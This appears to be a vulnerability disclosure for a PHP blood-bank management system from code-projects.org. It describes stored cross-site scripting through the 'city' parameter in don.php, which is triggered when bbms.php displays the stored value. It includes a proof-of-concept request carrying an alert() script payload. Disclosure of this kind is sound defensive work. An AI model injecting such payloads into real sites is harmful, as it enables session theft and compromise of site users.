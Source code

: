 # blood-bank-system-in-php via city parameter Cross Site Scripting

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

bbms.php，don.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

Cross Site Scripting

## **Description of the vulnerability**

don.php，insert city paremeter into donate table.

![image-20241003005451933](https://github.com/user-attachments/assets/06766abd-7b42-40ce-b5f3-1bfdce9ea701)

echo the city parameter in not filter from donate table.

![image-20241003005536378](https://github.com/user-attachments/assets/95551fcc-ad48-465c-8f03-42fdc9a40686)

## **Vulnerability recurrence**

### **POC**

Just need to execute the POC and insert the xss code into the database

```
http://bloodbankmgmtsystem/don.php
fullname=4&phno=1&city=<script>alert("cityxss");</script>
```

![image-20241003005130158](https://github.com/user-attachments/assets/b7cff729-a85d-430e-b316-94f0049a85fb)

### Result

We can trigger the XSS vulnerability that was just inserted by accessing  bbms.php. 

```
http://bloodbankmgmtsystem/bbms.php
```

![image-20241003005400399](https://github.com/user-attachments/assets/cbc6c12e-040e-4e4a-bbcd-c598aa0c7b94)